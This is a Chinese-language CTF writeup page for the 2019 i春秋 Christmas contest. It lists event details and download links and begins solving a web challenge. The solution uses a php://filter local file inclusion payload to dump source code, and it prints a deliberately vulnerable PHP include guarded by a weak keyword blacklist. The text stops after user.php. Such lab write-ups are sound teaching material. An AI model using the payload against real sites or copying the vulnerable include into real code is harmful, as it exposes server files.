 ## 比赛信息

> i春秋 欢乐圣诞赛
> 项目名称：CTF答题夺旗赛（第四季）
> 项目期限：2019.12.24 10:00:00-2019.12.28 23:59:59
> 每日10:00更新题目

<br/>

## Writeup

> [2019 i春秋 欢乐圣诞赛 做题笔记](https://www.jianshu.com/p/97ca00e255a7)

<br/>

## 附件链接

链接：https://pan.baidu.com/s/1oXiVkIvXojaRsmAmmBPTfg 提取码：xing

链接：https://pan.xunlei.com/s/VMdu0xfh6aIQFZ23PgCCMTLtA1 提取码：mcfu

链接：https://ctf.lanzoui.com/b02c7rq3i 密码:xing

<br/>

## 题目信息

### Web

#### nani(200)
> http://120.55.43.255:24719/

查看网页源码
```html
<html>
    <title>Where</title>
    
<a href="./index.php?file=show.php"></a></html>
```
打开a标签跳转的连接，返回“user.php”。由连接参数file测试文件包含，使用“/index.php?file=php://filter/read=convert.base64-encode/resource=index.php”分别得到index.php、show.php、user.php源码如下
```php
# index.php
<html>
    <title>Where</title>
    
<?php
    error_reporting(0);
    if(!$_GET[file]){echo '<a href="./index.php?file=show.php"></a>';}
    $file=$_GET['file'];
    if(strstr($file,"../")||stristr($file,"tp")||stristr($file,"input")||stristr($file,"data")){
        echo "NANI?";
        exit();
    }
    include($file);
?>
</html>
```
```php
# show.php
<?php
	echo "user.php";
```
```php
# user.php
<?php
```